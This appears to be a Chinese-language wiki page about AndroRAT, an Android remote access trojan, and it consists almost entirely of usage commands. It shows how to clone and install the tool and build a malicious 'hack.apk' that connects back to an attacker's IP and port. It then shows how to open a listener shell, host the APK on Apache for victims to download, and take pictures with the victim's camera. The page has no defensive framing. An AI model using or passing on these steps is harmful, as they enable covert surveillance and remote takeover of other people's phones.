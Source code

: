 ```yaml
---
title: 01.AndroRAT
description: android远程管理工具
published: 1
date: 2023-04-19T17:49:03.242Z
tags: web tools
editor: markdown
dateCreated: 2023-04-19T17:49:03.242Z
---
```


<center>AndroRAT</center>



[toc]





### AndroRAT

> 一个简单的使用套接字的android远程管理工具 [github](https://github.com/karma9874/AndroRat)



```shell
# 下载
git clone https://github.com/karma9874/AndroRAT.git
cd AndroRAT
pip install -r requirements.txt
```



### 1. 使用

```shell
# 生成apk  
python3 androRAT.py --build -i 192.168.1.10 -p 8888 -o hack.apk

# 监控端
python3 
python3 androRAT.py --shell -i 0.0.0.0 -p 8888

# 开启apche2 让用户可以网站下载apk
sudo systemctl start apache2.service
# 安装打开 提示连接到客户了

help # 查看帮助文档
# 相机
acmList   takepic 0
```

